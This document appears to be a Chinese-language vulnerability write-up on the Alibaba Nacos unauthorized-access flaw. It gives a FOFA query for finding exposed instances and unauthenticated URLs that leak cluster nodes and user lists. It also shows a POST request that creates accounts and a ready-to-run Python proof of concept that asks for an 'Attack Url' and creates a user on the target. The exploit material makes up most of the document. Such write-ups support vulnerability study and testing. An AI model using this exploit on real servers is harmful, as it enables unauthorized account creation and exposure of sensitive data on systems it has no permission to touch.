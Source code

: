# Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

> [!NOTE]
>
> Nacos <= 2.0.0-ALPHA.1

## FOFA

> [!NOTE]
>
> title="Nacos"

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**

![](image/nacos-1.png)

## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论

https://github.com/alibaba/nacos/issues/1105

![](image/nacos-2.png)

![](image/nacos-3.png)

这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问

![](image/nacos-4.png)

这里的请求url简化为

 http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=

退出用户后在前台访问这个 url

![](image/nacos-5.png)

可以发现以及泄露了 **ip节点** 等数据

同样我们查看用户列表的请求并在前台访问

 http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9

![](image/nacos-7.png)

![](image/nacos-6.png)

这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

我们尝试创建用户并抓包

![](image/nacos-8.png)

返回下列创建成功

```
{"code":200,"message":"create user ok!","data":null}
```

同样的我们简化请求

```
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```

![](image/nacos-9.png)

![](image/nacos-10.png)

看到有文章说要加上**User-Agent请求头**

```
User-Agent: Nacos-Server
```

但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

> [!NOTE]
>
> 同样的原理也可以用于修改密码添加配置等

## 漏洞利用POC

> [!NOTE]
>
> 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是  /nacos/v1/auth/users
>
> 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](image/nacos-11.png)

## Goby & POC

> Alibaba Nacos 未授权访问漏洞
>
> 扫描判断的只是是否可能存在，可以点击验证添加账户，根据响应判断是否成功
>
> 注意 Dir 目录选择

![](image/nacos-14.png)